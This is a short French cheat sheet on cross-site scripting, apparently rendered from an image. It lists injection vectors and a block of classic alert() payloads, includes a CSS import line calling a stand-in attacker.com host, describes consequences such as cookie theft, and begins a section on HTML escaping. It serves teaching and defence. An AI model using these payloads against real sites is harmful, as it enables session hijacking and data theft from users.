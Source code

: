 
## VECTEURS D'INJECTION

- Balises script : `<script>code</script>`
- Gestionnaires d'événements : `<img src=x onerror="alert('XSS')">`
- Attributs HTML : `<a href="javascript:alert('XSS')">`
- Styles CSS : `<style>@import'http://attacker.com/malicious.css';</style>`
- Iframes : `<iframe src="javascript:alert('XSS')">`
- SVG : `<svg onload="alert('XSS')">`

---

## PAYLOADS CLASSIQUES

```html
<script>alert('XSS')</script>
<img src=x onerror=alert('XSS')>
<svg/onload=alert('XSS')>
<body onload=alert('XSS')>
<iframe src="javascript:alert('XSS')">
<input onfocus=alert('XSS') autofocus>
<select onfocus=alert('XSS') autofocus>
<textarea onfocus=alert('XSS') autofocus>
<marquee onstart=alert('XSS')>
<div onmouseover="alert('XSS')">
```

---

## CONSÉQUENCES POSSIBLES

• Vol de cookies ou de tokens d'authentification  
• Usurpation de session ou d'identité  
• Altération de l'affichage du site (ex. faux formulaires de connexion, modification visuelle du site)  
  - Dans certains cas, il est possible d'une propagation automatique du code XSS à d'autres pages 
    du site, surtout en cas d'utilisation de widgets tiers compromis  
• Vol de données sensibles  
• Phishing ciblé  
• Propagation de malwares  
• Actions non autorisées au nom de l'utilisateur  
• Installation de keyloggers

---

## PROTECTION

Plusieurs techniques permettent d'éviter les failles XSS :

• **Échappement systématique des caractères HTML spéciaux :**
  - Convertir <, >, ", ', & en entités HTML (&lt;, &gt;, etc.)
